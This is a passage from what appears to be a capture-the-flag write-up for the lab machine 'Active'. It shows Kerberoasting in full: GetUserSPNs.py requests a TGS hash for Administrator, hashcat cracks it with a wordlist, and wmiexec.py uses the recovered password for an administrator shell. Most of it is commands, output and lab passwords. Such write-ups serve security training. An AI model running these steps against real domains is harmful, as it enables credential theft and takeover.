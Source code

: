 ```
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
Password: GPPstillStandingStrong2k18
<...SNIP...>
[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$73fd1c3cdfb6f1085f60218dc0
5d9b90$d8728890eed6dbfd4c7ac4a90d432af56e5ceb9cdb82c3ed943d64bca639c46f67c9e2892eae6b84fad
ce3215f550ba9aac436212ecdc0cdf93adc5a33547f31907bd79d4ec8826063cd18e07493eb7eb5b1a1efe1f53
08308489f2e101432ac40a6969861ff1c93fdec9ae1abb1b237c59bb866dcc7d028297f75e3110436dc5446f3f
8d36ec58b780384b0f6c02a6f1b76e283d3ed00dcc4a69061d5e02119cb79671e17ffce51cac8967606d2b0140
77c52064ccaf42ee7d2465818d56f12bc2daa2910e92740ebeaf78cd574a3919fabb04ae86f0c93b82e05e41d5
8b1d83d85407a9577823b30125d270e4dcec1dd0c4faa4eb87fd5110c281b9cfb1f5844507421984935eb63109
88319aaeb0b0d4e91849f4e6a15c9f024558b0e982d056d8ce3fcb5eea8a5eca7db51612ae1dfba0770a54e43a
79e5af5daa4366b8c752f6f8b060de90d4c5e21d473b503f4503a26cd3834400fd19141821244862a1d65e139a
d0640aa26478638c87dc715120cb8e2bb7e4d51ac21802d3b26c1d6207022c071fe9361c0c9b96767cd9bb0ce3
c3c3fe48fa0157f4fdd7a56fda7af540ed565eefd58c7ca7f8e5cae13333695897dd3acc01eee8d7870f55955e
3fc7a5946a61424e6dd5c243abfe11716dbc2e2ca435949c5f49feb9582b7a9d2eae6f7d9aa720b786468ce6ec
7ef5b879c764e59574de70345aa79898eb26d09bb6dd3e2e8b87e96ee60cb9dbde6365a201ae307698c162ea72
41f22b964960b1916b9fcb5e1981f5fd02ed0590a9862eb3a6b5e9a14cb99c3bfb72abfd4a7faef5766ac9f05f
aff37860acb0c00cfd90d2cda321a12f3dd08ffd1a36dbd8452d5ee92f0e90f9d78c6b8228ed333984d717cc99
26a8751d7ed0c14fde671f8413c361e72a48472acffa25fc931b4db96224f14427251662a4b934190bb215e8c0
727958432cb751dd8bf81c2dcdeeb355f45b0faf80388abac80c9cabfa7ce6a7ddf36c7fa2d02c5b168d00ce72
9e555f1cba3ad455d5dfb7c8360d5c1b021a3549065eceda11e0f109c9fed1720e2a2e3a111715698c60480aae
043501b35f527fe353a4c9a03ff46c6e438e411bbcfa3ea8ee3e8fbee38d464a43304a9a0607076748a19ff94b
6ad704674f6d8a0f29a9575a4b121b1143f8376ffc98dbce58589ec356deb592808052d530baa49c3ae5af846a
9b4047ce682f7473703c5dd1d8cf585eab3082e00cfaf23289dbffa1925ba26e41c3ba7e682cb
```

## Cracking of Kerberos TGS Hash

We use hashcat with the rockyou.txt wordlist to crack the hash and obtain the active\administrator
password of Ticketmaster1968 .

```
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat (v6.1.1) starting...
<...SNIP...>
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs
$krb5tgs$23$*Administrator$ACTIVE.HTB$<...SNIP...>:Ticketmaster1968
<...SNIP...>
Started: Mon Nov 27 12:18:48 2023
Stopped: Mon Nov 27 12:19:44 2023
```

Impacket’s wmiexec.py can be used to get a shell as active\administrator , and read root.txt .

```
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
active\administrator
```

The final flag can be found at C:\Users\Administrator\Desktop\root.txt .

